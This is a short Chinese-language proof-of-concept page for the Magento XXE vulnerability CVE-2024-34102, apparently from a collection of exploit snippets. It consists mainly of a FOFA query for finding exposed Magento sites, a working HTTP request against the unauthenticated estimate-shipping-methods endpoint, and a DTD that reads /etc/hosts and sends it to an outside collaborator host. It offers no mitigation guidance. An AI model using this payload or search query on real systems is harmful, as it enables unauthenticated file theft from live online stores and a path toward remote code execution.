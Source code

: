 ## Magento开源电子商务平台接口estimate-shipping-methods存在XXE漏洞(CVE-2024-34102)

2024年6月，Adobe官方披露CVE-2024-34102 Magento estimate-shipping-methods XXE漏洞，攻击者可在无需登陆的情况下构造恶意请求利用XXE读取文件，或者结合CVE-2024-2961 可能造成远程代码执行。

## fofa

```
app="Adobe-Magento"
```

## poc

```yaml
POST /rest/all/V1/guest-carts/test-assetnote/estimate-shipping-methods HTTP/2
Host: example.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 274

{
  "address": {
    "totalsReader": {
      "collectorList": {
        "totalCollector": {
          "sourceData": {
            "data": "<?xml version=\"1.0\" ?> <!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % sp SYSTEM \"http://your_ip:9999/dtd.xml\"> %sp; %param1; ]> <r>&exfil;</r>",
            "options": 16
          }
        }
      }
    }
  }
}
```

DTD 文件

```yaml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://collabid.oastify.com/dtd.xml?%data;'>">
```

![img](https://cdn.prod.website-files.com/64233a8baf1eba1d72a641d4/667bc2f3b5142eeccc853498_xxe-dtd-out-magento.png)

## 漏洞来源

- https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102